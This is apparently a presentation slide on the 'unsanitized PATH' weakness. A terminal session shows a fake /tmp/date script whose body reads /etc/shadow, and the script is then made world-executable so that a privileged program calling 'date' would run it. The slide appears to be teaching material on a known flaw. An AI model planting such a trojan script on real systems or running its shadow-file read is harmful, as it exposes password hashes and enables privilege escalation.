

Unsanitized PATH
bash$ cat /tmp/date
#!/bin/sh
/bin/cat /etc/shadow
bash$ chmod 777 /tmp/date